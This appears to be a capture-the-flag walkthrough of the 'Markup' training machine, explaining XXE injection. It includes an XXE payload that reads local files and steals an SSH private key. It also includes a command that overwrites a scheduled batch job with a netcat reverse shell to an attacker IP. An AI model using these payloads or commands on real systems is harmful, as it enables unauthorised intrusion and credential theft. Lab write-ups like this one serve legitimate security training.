


# Markup

#### Difficulty:<code>Very Easy</code>

#### Machine Tags:
  Apache  
  SSH  
  PHP  
  Reconnaissance  
  Scheduled Job Abuse  
  Weak Credentials  
  Arbitrary File Upload  
  XXE Injection  
  Weak Permissions  

#### Description
  Learn to about XXE attacks, how they work, and how to execute them. 

#### **XXE**
  *XML* or *Extensible Markup Language* defines a set of rules for encoding documents in a format for human and machine readability. 

  *XXE* or *XML External Entities* is a vulnerability from misconfiguration in XML parsers on a server. When XML input contains references to an external entity and lead to exposing confidential data, denial of service, server side request forgery, etc.

#### **XML 1.0 Standard**
  The structure of an XML document defines entities as a *storage unit of a certain type*. *External entities* have access to local or remote content from a declared system identifier. If the identifier contains tainted data, the XML processor dereferences it and can disclose confidential information. 

#### **Initial Enumeration**
  The flags we are going to use for this are a bit different:
  ``` bash
    nmap -sC -A -Pn {TARGET_IP}

    # -sC : equivalent to --script=default
    # -A  : enable OS detect, version detect, script scan ,and traceroute
    # -Pn : treat all hosts as online -- skip host discovery
  ```
  22/tcp  : ssh      : OpenSSH for_Windows_8.1 (protocol 2.0)
  80/tcp  : http     : Apache httpd 2.4.41 ((Win64) OpenSSHl/1.1.1c PHP/7.2.28)
  443/tcp : ssl/http : Apache/2.4.41 (Win64) 

  Checking the ip on a browser shows a webapp with a login portal. Trying using some default credentials works pretty well, and we gain access using *admin:password*. Most of the pages are just static but the Order page has an input box. 

#### **Request Proxying**
  Using BurpSuite to analyze requests, we can input arbitrary information into the text boxes and send it to find more information on the application. For example, XML is verison 1.0, the account who updated the webpage last has the name <code>Daniel</code> 

  For trying to read the <code>/etc/passwd</code> file, our best guess is that the target system is running Windows so we can test if this exploit would work by using <code>C:/windows/win.ini</code>. 

  ``` xml
    <?xml version="1.0"?>
      <!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]> 
      <order> 
        <quantity> 3 </quantity> 
        <item> &test; </item> 
        <address> 17th Estate, CA </address> 
      </order>
  ```

  The response to this payload lets us know that XXE vulnerability is possible on the system:

  

#### **Daniel**
  From earlier I mentioned a user named Daniel. Here is where I found that by viewing the source page. 

  

  We can test to see if this is a user account on the target by sending for a couple files. One of them is the SSH <code>id_rsa</code>. Requesting for this yields a key. Using the key we can ssh into the target machine as Daniel. 

  There are also several files and directories that look interesting. Namely a batch file in a Log-Management folder. 

#### **Job.bat**
  Reading <code>job.bat</code> the program can only be run by Admin for the purpose of clearing logfiles. It uses a utility called <code>wevutil.exe</code> which has the ability to retrieve information about event logs and publishers, install/uninstall event manifests, run queries, and export, archive, and clear logs. 

  Running this to view the groups with permissions over the .bat file:
  ``` bash
    icacls job.bat
  ```
  Command Prompt is not able to use <code>ps</code> to view processes so we can switch to powershell and execute it. Now that we know job.bat is running. It comes to how to deliver a script to establish a reverse shell with the target system. Using <code>wget</code> we send over <code>nc64.exe</code>, now we need to create a netcat listener and execute the script on the host machine. 

  ``` 
    echo C:\Log-Management\nc64.exe -e cmd.exe {TUN0_IP} {PORT} > C:\Log-Management\job.bat
  ```

  Running nc64.exe we can establish the reverse shell with root access by going through job.bat. 